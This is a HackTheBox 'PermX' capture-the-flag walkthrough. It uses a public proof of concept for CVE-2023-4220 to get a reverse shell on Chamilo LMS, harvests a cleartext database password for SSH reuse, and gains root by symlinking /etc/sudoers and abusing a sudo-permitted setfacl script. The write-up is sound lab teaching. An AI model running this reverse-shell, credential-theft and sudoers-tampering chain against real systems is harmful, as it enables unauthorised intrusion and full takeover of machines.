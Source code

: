 # PermX Walkthrough
<br/>

## Intro
Welcome to the permX challenge Walkthrough from HackTheBox, here is the link to the [room](https://app.hackthebox.com/machines/permx).
In this room we are gonna have to find a vulenerability in a webservice to get our initial foothold and later do some binary exploitation to capture the root's flag.

To interact with the machine connect via OpenVPN using the "lab" config profile.

Whenever you feel ready press "Join the Machine"

<br/>
<br/>

## The Challenge
As always let's add the IP address to the hosts file:
```bash
sudo -- sh -c "echo 'MACHINE-IP  permx.htb' >> /etc/hosts"
```

We can begin the recon phase with an nmap scan:
```
nmap -sV MACHINE_IP
```

Here is the result
```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http           Apache httpd 2.4.52
8383/tcp  filtered m2mservices
9091/tcp  filtered xmltec-xmlmail
32785/tcp filtered unknown
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point i tried to do some more enumeration by scanning for subdomains with *fuff* and got a match "lms":
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.permx.htb" -u "http://permx.htb" -fw 18
```

Let's add `lms.permx.htb` to the hosts file as well.

Visiting `http://lms.permx.htb/` we can see a login page powered by Chamilo version 1, we can now look for known vulnerabilities.
After a quick search i have found CVE-2023-4220 which leads to an RCE, i have also seen that there is a PoC on [GitHub](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS)

```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
```

Now i have created a virtual environment with python to install the requirements:
```bash
python3 -m venv venv
```
Activate it:
```
source ./venv/bin/activate
```

```bash
pip install requests
```

Now let's prepare a listener on our machine:
```bash
nc -lvnp 1234  
```

Run the exploit to get a reverse shell
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```

And in a couple of seconds we have our shell!

Now we can upgrade the shell to make it interactive and more stable, following this [method]()

Since we are logged in as www-data we need to find a way to get access to the user account "mtz" to retrieve the user flag.
Either running linpeas or by carefully exploring the directories you can find a password in clear text
```
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Now we can login into the other user via ssh:
```bash
ssh mtz@permx.htb  
```
Insert the password we have just found and we have the session.

Now we can get the first flag:
```bash
cat user.txt
```
--> REDACTED
<br/>

### Privilege Escalation
We can check which binaries we are allowed to run as super user running:
```bash
sudo -l
```

```
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Let's find out what this script does:
```bash
cat /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

The script is calling for another binary "setfacl" which is used to set permissions for files.

A way we can exploit this is to create a custom made file that looks like /etc/sudoers but we will change our user's permissions ad than create a symbolic link between the two

```bash
ln -s /etc/sudoers ./sudoers
```

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/sudoers
```

```bash
nano sudoers
```
edit this line to look like this:
```
mtz ALL=(ALL:ALL) ALL
```

```bash
sudo su
```

And finally we can get the flag:
```bash
cat /root/root.txt
```

<br/>
<br/>

Congratulations, you have completed the challenge! <br>
If you wanna see more write ups you can check the WriteUps Directory in this [GitHub repo](). <br>
Catch you in the next CTF 😃 

